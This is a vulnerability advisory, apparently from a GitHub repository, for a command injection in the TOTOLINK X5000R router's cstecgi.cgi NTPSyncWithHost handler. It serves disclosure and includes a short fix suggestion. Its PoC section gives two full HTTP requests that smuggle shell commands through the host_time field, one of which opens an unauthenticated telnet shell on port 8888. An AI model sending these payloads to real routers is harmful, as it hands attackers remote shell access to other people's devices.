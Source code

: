 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:X5000R

Version:X5000R_Firmware(V9.1.0u.6118_B20201102)

Type:Remote Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in TOTOLINK Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `cstecgi.cgi` binary:

In `NTPSyncWithHost` function,`host_time` is directly passed by the attacker, so we can control the `host_time` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:100%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `host_time` as **';/usr/sbin/telnetd;'** , and the router will excute it, such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1639032360781
Cookie: SESSION_ID=2:1420071268:2

{"host_time":"';/usr/sbin/telnetd;'","topicurl":"NTPSyncWithHost"}
```

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

We set `host_time` as **';telnetd -l /bin/sh -p 8888 -b 0.0.0.0;'** , and the router will excute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/time.html?time=1639032360781
Cookie: SESSION_ID=2:1420071268:2

{"host_time":"';telnetd -l /bin/sh -p 8888 -b 0.0.0.0;'","topicurl":"NTPSyncWithHost"}
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>



## Result

The target router has enabled the telnet service.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

